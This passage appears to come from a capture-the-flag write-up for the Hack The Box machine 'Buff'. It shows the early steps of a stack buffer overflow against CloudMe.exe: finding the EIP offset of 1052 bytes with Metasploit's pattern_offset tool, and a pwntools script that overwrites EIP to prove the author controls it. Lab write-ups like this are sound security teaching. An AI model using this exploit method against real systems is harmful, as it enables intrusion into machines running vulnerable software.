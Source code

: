 
I check the registers and copy the value of EIP


![Desktop View](/assets/img/htb/buff/registers_2.png)


by quering the pattern I find that the offset is at 1052 bytes
```
$ /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x316A4230
[*] Exact match at offset 1052
````

To prove this I send 1052 "U"s and 4 "f"s, if its correct I'll see 66666666 in the EIP register 

```python
from pwn import *

def exploit():
    
    buffer="\x55" * 1052
    eip="\x66" * 4

    payload = buffer + eip

    conn = remote(host,port)
    conn.sendline(payload)
    conn.close()
    print("[+] Payload sent")
    
if __name__ == '__main__':
    exploit() 
```

Before running the exploit I reload cloudme.exe in the debugger.

After sending the new string I verify that I have control over the EIP and can continue creating the exploit 

![Desktop View](/assets/img/htb/buff/registers_3.png)

